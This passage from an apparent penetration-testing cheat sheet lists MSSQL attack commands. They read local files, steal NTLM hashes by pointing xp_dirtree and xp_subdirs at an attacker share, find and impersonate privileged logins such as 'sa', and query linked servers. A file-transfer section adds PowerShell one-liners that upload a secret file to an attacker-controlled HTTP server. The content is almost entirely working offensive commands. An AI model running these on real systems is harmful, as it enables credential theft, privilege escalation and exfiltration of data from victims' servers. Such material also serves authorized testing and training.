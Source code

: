 ```bash
8> GO

# Read Local Files in MSSQL
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO

# XP_DIRTREE Hash Stealing
EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO

# XP_SUBDIRS Hash Stealing
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO

# Identify Users that We Can Impersonate
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO

# Verifying our Current User and Role
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go

# Impersonating the SA User
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO

# Identify linked Servers in MSSQL
1> SELECT srvname, isremote FROM sysservers
2> GO
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
2> GO
```

### file transfer
https://juggernaut-sec.com/windows-file-transfers-for-hackers/#Uploading_Files_to_Attackers_HTTP_Server
```bash
# From Windows to kali
1. first turn on the python server(placed it under /root/tools/sample
SimpleHTTPServerWithUpload.py
2. powershell
(New-Object System.Net.WebClient).UploadFile('http://172.16.1.30/', 'C:\temp\supersecret.txt')
or cmd
powershell.exe -c "(New-Object System.Net.WebClient).UploadFile('http://172.16.1.30/upload.php', 'C:\temp\supersecret.txt')"



```
